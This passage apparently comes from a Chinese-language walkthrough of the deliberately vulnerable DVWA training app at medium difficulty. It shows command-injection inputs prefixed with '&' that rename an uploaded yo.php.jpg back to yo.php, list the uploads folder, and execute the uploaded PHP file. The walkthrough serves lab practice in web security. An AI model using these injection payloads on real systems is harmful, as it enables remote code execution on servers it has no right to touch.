 接著只要將副檔名從 `jpg` 修改回 `php` 即可

```
&mv ../../hackable/uploads/yo.php.jpg ../../hackable/uploads/yo.php
```

```
&ls ../../hackable/uploads
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2036.png)

最後直接在這頁執行也可從上傳的資料路徑夾執行我們上傳的檔案

```
&php ../../hackable/uploads/yo.php
```
